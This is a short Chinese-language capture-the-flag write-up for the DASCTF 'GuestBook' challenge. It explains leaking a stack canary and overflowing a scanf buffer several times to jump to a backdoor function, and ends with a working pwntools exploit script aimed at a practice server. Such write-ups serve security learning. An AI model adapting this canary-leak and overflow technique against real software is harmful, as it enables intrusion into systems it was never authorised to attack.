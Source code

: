 ```yaml
---
title: DASCTF月赛 - GuestBook
date: 2023/12/3 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析GuestBook程序，利用canary泄露和栈溢出成功调用后门函数。
---
```


From CBCTF x DASCTF

## 文件分析

下载`GuestBook`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

name上就是canary，首先填满name使得canary值泄露；  
还要注意输入时使用的是scanf，虽然可以栈溢出，但是遇到空字符会截断，
需要多次溢出，实现跳转到`magic`后门函数

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 27847)

# payload 1, leak canary
sh.sendline(b'0'*23 + b'.')

sh.recvuntil(b'.\n') # skip
canary = u64(b'\0' + sh.recvuntil(b'!')[:7])
magicAddr = 0x4012c3

# payload 2, scanf 3 times to return to magic
sh.sendline(b'3')
sh.sendline(b'0'*0xa8 + p64(magicAddr)) # call magic, keep rsp balance
sh.sendline(b'0'*0x79 + p64(canary)[1:]) # fill canary except for the first 0x00
sh.sendline(b'0'*0x58) # fill canary 1st byte with 0x00

sh.interactive()
```

Done.
